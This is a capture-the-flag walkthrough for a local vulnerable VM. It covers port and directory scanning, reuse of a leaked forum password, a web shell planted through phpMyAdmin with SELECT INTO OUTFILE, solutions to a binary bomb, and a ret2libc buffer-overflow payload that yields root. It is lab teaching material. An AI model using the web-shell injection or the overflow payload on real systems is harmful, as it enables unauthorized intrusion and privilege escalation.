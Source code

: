 When we've set up our .iso file we will see this:

We need to understand what exactly we are going to "hack".
### 1. Using ifconfig to see the active interfaces, virtual boxes
   `ifconfig`:<br/>
    ![ifconfig](screens/1.jpg)
    
### 2. Using nmap to see which ports are open for the VM and what exact ip address it located at 
   `nmap 192.168.12.1-255`:<br/>
   ![nmap](screens/nmap.jpg)
      
   We see that port 80 accessible through the browser

### 3. Put this 192.168.12.128 into the browser address field and you will get a simple page:<br/>
      ![web_page](screens/web_page.jpg)
      
### 4. Now we can use DIRB - scaner of the web content which can find possibly hidden information of the page using it's library:<br/>
   * `./dirb http://192.168.12.128 wordlist/common.txt -w`<br/>
       output gives us a possibility to see the "forum" folder and some other which are not really relevant:<br/>
       ![dirb](screens/dirb.jpg)<br/>
       Though http://192.168.12.128/forum not found in browser

   * lets try ssl version of the site<br/>
       `./dirb http://192.168.12.128 wordlist/common.txt -w`<br/>
       and we get much more info now, but there are few main folders:<br/>
       ![dirb_https](screens/dirb_https.jpg)<br/>
       https://192.168.12.128/forum<br/>
       https://192.168.12.128/webmail<br/>
       https://192.168.12.128/phpmyadmin<br/>

### 5. First checking out the "forum" folder, proceeding in the browser to https://192.168.12.128/forum <br/>
   * We see few topics, checking first one with login problem, looks like the log outpit of log in attempts, one line contains some symbols that are looking like a password:<br/>   
   ![forum_log_pass](screens/forum_log_pass.jpg)<br/>
   assuming that it was log in try we can think that it's user password, probably the one who created the topic<br/>
   
   * Log in functionality is present on a forum, as well as users tab:<br/>
   ![users](screens/forum_users.jpg)<br/>
   there are not so much users, so we going to try to login with credentials of them and this password that we have<br/>
   the try to login with lmezard and password that we've found was successfull<br/>
   ![user_profile](screens/forum_user_profile.jpg)<br/>
   Keep in mind that we have access to the "webmail" page and we see the email of the user
       
### 6. Going to check the webmail page
   * trying if user email that we found and password that we used to login are matching, seems it works<br/>
   ![web_mailer](screens/web_mailer.jpg)<br/>
   * inbox contains 2 emails, one is very interesting, but another one contains root DB access, which seems more relevant to us necause we remember that we have "phpmyadmin" page on a site<br/>
   ![inbox](screens/inbox.jpg)<br/>
   ![db_access_mail](screens/db_access_mail.jpg)<br/>

### 7. phpmyadmin investigation
   * lets try to login with credentials that we've got<br/>
   * using suggestions from this topic http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2 we are going to inject php file that allows us to run a shell commands from browser<br/>
   * During several attemtps of the injection files into different known folders that exist on the site, we were finally able to make a needed injection into the "temaplates_c" folder<br/>
    `SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";`<br/>
    ![db_injection](screens/db_injection.jpg)<br/>
### 8. thanks to the tutorial we can now use shell commands of the server from the browser 
   * which gives us the possibility to find credentials to access the server found in password file in LOOKATME folder<br/>
   ![bash_in_browser](screens/bash_trough_browser.jpg)<br/>
   * looks like an ssh or ftp access <br/>
   ![lmezard_password](screens/lmezard_password.jpg)<br/>
   
### 9. trying to ge access
   * ssh (unsucessfull)<br/>
   ![ssh_try](screens/ssh_try.jpg)<br/>
   * ftp (sucessfull)<br/>
   * we can see two files, get them<br/>
   ![ftp_try](screens/ftp_try.jpg)<br/>
   * readme contains some hint for us<br/>
   ![ftp_readme](screens/ftp_readme.jpg)<br/>
   * fun is archive, after decompression it contains a lot of `.pcap` files<br/>
   ![fun_file_type](screens/fun_file_type.jpg)<br/>
   ![extracted_fun](screens/extracted_fun.jpg)<br/>
   * using cat command for fun file we can see simple c programm that outputs 12 letters and says it's the password, there are also function calls get_me#() from 1 to 12 each returns letter</br>
   ![cat_fun_hint](screens/cat_fun_hint.jpg)<br/>
   * we found out that archive 8 files return the values from the password<br/>
   ![grep_return_pass_vals](screens/grep_return_pass_vals.jpg)<br/>
     lets sort them according to numbers inside and we will get the order:<br/>
     ![files_to_order](screens/files_to_order.jpg)<br/>
       ***APM1E** I<br/>
       **ZPY1Q** h<br/>
       **ECOW1** e<br/>
       **7DT5Q** a<br/>
       **T7VV0** r<br/>
       **J5LKW** t<br/>
       **T44J5** p<br/>
       **BJPCP** wnage<br/>*
     now we see that the password "Iheartpwnage" looks like case sensetive
   * In fun archive we also saw hint about SHA256, lets encode our password to SHA256    `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`
   * and try to ssh on the server with `laurie@192.168.12.128` and password
### 10. We are successfully ssh with laurie user
* we see the README file that gives us a hint how to get password for the ssh access with user "thor"
* disasemple bomb file and we see 6 functions
  * **Phase_1** pushes value to the stack 0x80497c0, which is "Public speaking is very easy." Also hint says that password has no spaces and case sensetive, modifing string and getting first part of out password: `Publicspeakingisveryeasy.`
  * **Phase_2** function 'read_six_numbers' and the string '%d %d %d %d %d %d' at the address 0x08049b1b. We assume that first number is 1, the others are multiples by the last number in the sequense so we have to do it 6 times according to the string. 1*1 2*1 2*3 6*4 24*5 120*6 so the next part of our password is: `12624120720`
  * **Phase_3** contains the string "%d %c %d" before the call of sscanf function, hint has given us that the character passed to the function should be `b`, so it gives us the solution of "1 b 214", next part of the password is "1b214"
  * **Phase_4** contains the string "%d" before the call of sscanf function, after the call eax must be equal to 0x37 which is 55, so the number passed to the function we get by inversing the assembly code "9"
  * **Phase_5** contains the tring "giants" at the address 0x804980b. we also see string isrveawhobpnutfg\260\001 at the address 0x804b220, and a programm gives us a hint to exchange the letters from giants to once from that string and we get `opekmq`
  * **Phase_6** the programm read_six_numbers and a hint gives us number 4, we also see 6 nodes {253} -> {725} -> {301} -> {997} -> {212} -> {432}, 4-th of the is the biggest, lets assume that we need to order them in descending order then our password part will be: `426315` though according to the forum we must swap 3 and 1 in last part to get the access<br/> <br/>
The password in the end: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

### 11. ssh thor@192.168.12.128 
    We see the README and turtle files
    README suggests us to login with user zaz
    the turtle file is a draw map which is python module
    it gives us the word SLASH
### 12. ssh zaz@192.168.12.128
    trying password SLASH, does not work
    sha256 encryption of SLASH does not work eather
    md5 does work
### 13. we find a file exploit_me and it has a root rights
    If we open exploit_me into gdb we notice that we can use a buffer overflow attack and overwrite the EIP register due to the use of an unprotected strcpy.
    Playing around with the command line we can make the program crash at 140 bytes.
    ./exploit_me $(python -c "print('A' * 140)")
### 14. we need to exploit
$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz) 
    gives us root permissions using a well know security risk on strcpy which provides us with the possiblity to user ret2libc atack, very well known attack
    
